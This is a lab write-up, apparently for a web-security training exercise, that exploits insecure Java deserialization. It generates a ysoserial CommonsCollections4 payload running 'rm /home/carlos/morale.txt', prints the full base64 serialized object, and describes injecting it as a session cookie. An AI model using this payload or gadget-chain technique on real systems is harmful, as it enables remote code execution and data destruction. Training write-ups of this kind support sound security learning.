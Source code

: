 *This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.
To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.
You can log in to your own account using the following credentials: wiener:peter*

Logged in to see the following:
![Screenshot 2024-05-30 at 5.05.11 PM](images/Screenshot%202024-05-30%20at%205.05.11%20PM.png)
Sent the request to the *Repeater* and tried to decode the cookie:
![Screenshot 2024-05-30 at 5.06.05 PM](images/Screenshot%202024-05-30%20at%205.06.05%20PM.png)
Ran the following commands in my console to change the `java` and `javac` versions to `11`:
```console
┌──(roshan㉿roshan)-[~/Tools]
└─$ sudo update-alternatives --config java

[sudo] password for roshan: 
There are 3 choices for the alternative java (providing /usr/bin/java).

  Selection    Path                                         Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-22-openjdk-arm64/bin/java   2211      auto mode
  1            /usr/lib/jvm/java-11-openjdk-arm64/bin/java   1111      manual mode
  2            /usr/lib/jvm/java-17-openjdk-arm64/bin/java   1711      manual mode
  3            /usr/lib/jvm/java-22-openjdk-arm64/bin/java   2211      manual mode

Press <enter> to keep the current choice[*], or type selection number: 1
update-alternatives: using /usr/lib/jvm/java-11-openjdk-arm64/bin/java to provide /usr/bin/java (java) in manual mode
                                                                                                                   
┌──(roshan㉿roshan)-[~/Tools]
└─$ sudo update-alternatives --config javac

There are 2 choices for the alternative javac (providing /usr/bin/javac).

  Selection    Path                                          Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-22-openjdk-arm64/bin/javac   2211      auto mode
  1            /usr/lib/jvm/java-11-openjdk-arm64/bin/javac   1111      manual mode
  2            /usr/lib/jvm/java-22-openjdk-arm64/bin/javac   2211      manual mode

Press <enter> to keep the current choice[*], or type selection number: 1
update-alternatives: using /usr/lib/jvm/java-11-openjdk-arm64/bin/javac to provide /usr/bin/javac (javac) in manual mode
```
I then ran the following command in `ysoserial`:
```console
┌──(roshan㉿roshan)-[~/Tools]
└─$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```
This generated the following payload:
```console
rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBh
cmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAQm9yZy5hcGFjaGUuY29tbW9u
cy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuVHJhbnNmb3JtaW5nQ29tcGFyYXRvci/5hPArsQjM
AgACTAAJZGVjb3JhdGVkcQB+AAFMAAt0cmFuc2Zvcm1lcnQALUxvcmcvYXBhY2hlL2NvbW1vbnMv
Y29sbGVjdGlvbnM0L1RyYW5zZm9ybWVyO3hwc3IAQG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0
aW9uczQuY29tcGFyYXRvcnMuQ29tcGFyYWJsZUNvbXBhcmF0b3L79JkluG6xNwIAAHhwc3IAO29y
Zy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9uczQuZnVuY3RvcnMuQ2hhaW5lZFRyYW5zZm9ybWVy
MMeX7Ch6lwQCAAFbAA1pVHJhbnNmb3JtZXJzdAAuW0xvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVj
dGlvbnM0L1RyYW5zZm9ybWVyO3hwdXIALltMb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25z
NC5UcmFuc2Zvcm1lcjs5gTr7CNo/pQIAAHhwAAAAAnNyADxvcmcuYXBhY2hlLmNvbW1vbnMuY29s
bGVjdGlvbnM0LmZ1bmN0b3JzLkNvbnN0YW50VHJhbnNmb3JtZXJYdpARQQKxlAIAAUwACWlDb25z
dGFudHQAEkxqYXZhL2xhbmcvT2JqZWN0O3hwdnIAN2NvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5p
bnRlcm5hbC54c2x0Yy50cmF4LlRyQVhGaWx0ZXIAAAAAAAAAAAAAAHhwc3IAP29yZy5hcGFjaGUu
Y29tbW9ucy5jb2xsZWN0aW9uczQuZnVuY3RvcnMuSW5zdGFudGlhdGVUcmFuc2Zvcm1lcjSL9H+k
htA7AgACWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7WwALaVBhcmFtVHlwZXN0ABJbTGph
dmEvbGFuZy9DbGFzczt4cHVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAFz
cgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVz
SW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVj
b2Rlc3QAA1tbQlsABl9jbGFzc3EAfgAUTAAFX25hbWV0ABJMamF2YS9sYW5nL1N0cmluZztMABFf
b3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD/////dXIAA1tb
Qkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX+AYIVOACAAB4cAAABqzK/rq+AAAAMgA5CgADACIH
ADcHACUHACYBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFrSCT85Hd7z4B
AAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRh
YmxlAQAEdGhpcwEAE1N0dWJUcmFuc2xldFBheWxvYWQBAAxJbm5lckNsYXNzZXMBADVMeXNvc2Vy
aWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXlsb2FkOwEACXRyYW5zZm9y
bQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9z
dW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxl
cjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0
Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2Vy
aWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwAnAQCmKExjb20vc3Vu
L29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUv
eG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwv
aW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1
TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdo
YW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJp
YWxpemF0aW9uSGFuZGxlcjsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHACgBADN5
c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJFN0dWJUcmFuc2xldFBheWxvYWQBAEBjb20v
c3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5z
bGV0AQAUamF2YS9pby9TZXJpYWxpemFibGUBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50
ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9H
YWRnZXRzAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAKgEACmdldFJ1bnRpbWUBABUo
KUxqYXZhL2xhbmcvUnVudGltZTsMACwALQoAKwAuAQAacm0gL2hvbWUvY2FybG9zL21vcmFsZS50
eHQIADABAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAAy
ADMKACsANAEADVN0YWNrTWFwVGFibGUBABx5c29zZXJpYWwvUHduZXIxMTY2NDI5NTIzNzAyAQAe
THlzb3NlcmlhbC9Qd25lcjExNjY0Mjk1MjM3MDI7ACEAAgADAAEABAABABoABQAGAAEABwAAAAIA
CAAEAAEACgALAAEADAAAAC8AAQABAAAABSq3AAGxAAAAAgANAAAABgABAAAALwAOAAAADAABAAAA
BQAPADgAAAABABMAFAACAAwAAAA/AAAAAwAAAAGxAAAAAgANAAAABgABAAAANAAOAAAAIAADAAAA
AQAPADgAAAAAAAEAFQAWAAEAAAABABcAGAACABkAAAAEAAEAGgABABMAGwACAAwAAABJAAAABAAA
AAGxAAAAAgANAAAABgABAAAAOAAOAAAAKgAEAAAAAQAPADgAAAAAAAEAFQAWAAEAAAABABwAHQAC
AAAAAQAeAB8AAwAZAAAABAABABoACAApAAsAAQAMAAAAJAADAAIAAAAPpwADAUy4AC8SMbYANVex
AAAAAQA2AAAAAwABAwACACAAAAACACEAEQAAAAoAAQACACMAEAAJdXEAfgAfAAAB1Mr+ur4AAAAy
ABsKAAMAFQcAFwcAGAcAGQEAEHNlcmlhbFZlcnNpb25VSUQBAAFKAQANQ29uc3RhbnRWYWx1ZQVx
5mnuPG1HGAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZh
cmlhYmxlVGFibGUBAAR0aGlzAQADRm9vAQAMSW5uZXJDbGFzc2VzAQAlTHlzb3NlcmlhbC9wYXls
b2Fkcy91dGlsL0dhZGdldHMkRm9vOwEAClNvdXJjZUZpbGUBAAxHYWRnZXRzLmphdmEMAAoACwcA
GgEAI3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMkRm9vAQAQamF2YS9sYW5nL09iamVj
dAEAFGphdmEvaW8vU2VyaWFsaXphYmxlAQAfeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0
cwAhAAIAAwABAAQAAQAaAAUABgABAAcAAAACAAgAAQABAAoACwABAAwAAAAvAAEAAQAAAAUqtwAB
sQAAAAIADQAAAAYAAQAAADwADgAAAAwAAQAAAAUADwASAAAAAgATAAAAAgAUABEAAAAKAAEAAgAW
ABAACXB0AARQd25ycHcBAHh1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAF2
cgAdamF2YXgueG1sLnRyYW5zZm9ybS5UZW1wbGF0ZXMAAAAAAAAAAAAAAHhwdwQAAAADc3IAEWph
dmEubGFuZy5JbnRlZ2VyEuKgpPeBhzgCAAFJAAV2YWx1ZXhyABBqYXZhLmxhbmcuTnVtYmVyhqyV
HQuU4IsCAAB4cAAAAAFxAH4AKXg=
```
Pasted the payload as the cookie of the login request. I removed the whitespaces and URL encoded the whole cookie:
![Screenshot 2024-05-31 at 10.34.47 AM](images/Screenshot%202024-05-31%20at%2010.34.47%20AM.png)
